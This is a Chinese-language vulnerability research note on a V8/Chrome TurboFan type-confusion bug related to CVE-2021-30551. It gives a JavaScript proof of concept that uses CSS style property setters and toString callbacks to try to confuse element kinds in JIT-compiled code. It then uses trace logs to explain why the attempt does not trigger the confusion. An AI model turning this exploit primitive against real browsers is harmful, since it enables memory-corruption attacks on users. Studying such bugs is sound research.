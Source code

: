 先用下面的代码测试下：

```javascript
import * as cvs from './module/conversion.mjs'

const smi_value = 1;
const double_value = 1.1;

const obj_arr = [{}, {}, {}];

var s1 = document.createElement('p').style;
var v1 = {
	toString: () => {
		s1.confuzion = obj_arr;
	}
};

s1.deprecate = smi_value;
s1.confuzion = v1;

var s2 = document.createElement('p').style;
var v2 = [1.1, 1.2, 1.3];
v2.toString =  () => {
	s2.confuzion = obj_arr;
	s1.deprecate = double_value;
};

s2.deprecate = smi_value;
s2.confuzion = v2;

var jit = (obj) => {
	return obj.confuzion[0];
}

for(let i = 0; i < 20000; ++i) {
	jit(s1);
}

alert(jit(s2));
```

不出意外的结果是不行，alert 弹窗输出了正确的浮点值 1.1，下面我分析一下为什么不行。我对 turbofan 的整个编译过程虽然不是一无所知吧，但是可以说是一窍不通。所以我采用的分析方案就是抓取 trace log 和 CVE-2021-30551 的进行对比，找到它们的区别。

抓取 trace log 需要指定命令行 `./chrome.exe --no-sandbox --enable-logging=stderr --js-flags="--trace-turbo"`。

简单对比之后我发现，主要的区别在 V8.TFInlining 阶段。jit 函数很简单，访问对象的属性 confuzion 以及访问数组的 \[0] 元素两个操作，分别对应 IR 图中的 JSLoadNamed 和 JSLoadProperty 两个节点。对于 CVE-2021-30551 的 EXP，这两个节点在 V8.TFInlining 阶段满足了优化的条件，都被替换成了更底层的内存加载操作 LoadFiled、LoadElement。而对于本次的 EXP JSLoadNamed 节点没有满足优化条件，仍然保持是 JSLoadNamed，这个区别就使得直接导致类型混淆的 CheckMaps 优化的条件没有被满足，编译生成的代码在访问 confuzion\[0] 还是会检查 confuzion 的 map 是否满足条件，不会触发类型混淆。

![[Pasted image 20221213233338.png]]

